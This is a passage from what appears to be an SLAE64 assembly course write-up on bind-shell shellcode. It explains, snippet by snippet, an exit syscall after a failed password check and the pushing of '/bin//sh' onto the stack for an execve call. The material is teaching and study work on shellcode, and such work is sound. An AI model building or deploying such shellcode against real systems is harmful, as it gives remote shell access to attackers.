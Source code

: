 ```nasm
    jnz exit                        ; if they don't match jmp to exit
```

- Syscall `exit`

We clear the `RAX` register and add to it the hex value `0x3c` (`60` in decimal) as the `exit` syscall number.

```nasm
exit:
    xor rax, rax
    add rax, 0x3c           ; 3c is the hex value of the decimal 60 for exit
```

Then, we clear the `RDI` register and decrement its value to `-1` in order to set the status and exit the program unsuccessfully.

```nasm
    xor rdi, rdi
    dec rdi                 ; status
```

Finally, we execute the `exit` syscall.

```nasm
    syscall                 ; exec exit syscall
```

- Syscall `execve`

We clear the `RAX` register and push the value `0` to the stack.

```nasm
    xor rax, rax
    push rax
```

Since "/bin/sh" is only 7 bytes, we need to make it 8 bytes. That is because when a string is pushed to the stack it must be multiplied by 8. The safest way to do that, without breaking any functionality, is to add a `/`. So we will use the same `python` script like before to reverse the "/bin//sh" string.

```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/1_Shell_bind_tcp$ ./reverse.py "/bin//sh"
String length: 8
hs//nib/ : 68732f2f6e69622f
```

Now we save that in `RBX` register and then push it to the stack.

```nasm
    mov rbx, 0x68732f2f6e69622f     ; "hs//nib/"
    push rbx
```

`RDI` points at the top of the stack, where is the string "/bin//sh" as the first argument for `execve`.

```nasm
    mov rdi, rsp            ; rdi points at "/bin//sh" at the top of the stack
```

